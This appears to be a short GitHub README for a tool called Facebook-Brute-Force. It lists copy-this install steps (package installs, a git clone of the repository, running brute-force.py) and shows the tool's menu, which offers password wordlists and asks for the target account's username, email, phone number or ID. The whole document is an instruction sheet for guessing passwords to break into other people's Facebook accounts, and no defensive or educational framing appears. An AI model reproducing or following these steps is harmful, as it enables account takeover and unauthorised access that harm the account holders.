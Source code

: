 # Facebook-Brute-Force


Please copy one by one


1. pkg install python3


2. pip install requests


3. git clone https://github.com/AMH-HC/Facebook-Brute-Force


4. ls


5. cd Facebook-Brute-Force


6. pip install -r primo-pip-reqs.txt


7. python brute-force.py -h

8. clear

9. python brute-force.py

==============
AMH FACEBOOK-BRUTE-FORCE 2021
================
Enter choice

1. passwords-1.txt  
   
   passwords-2.txt 
  
   passwords-3.txt

   passwords-4.txt

2. Hacked => account => username / email or phone number / account Id 
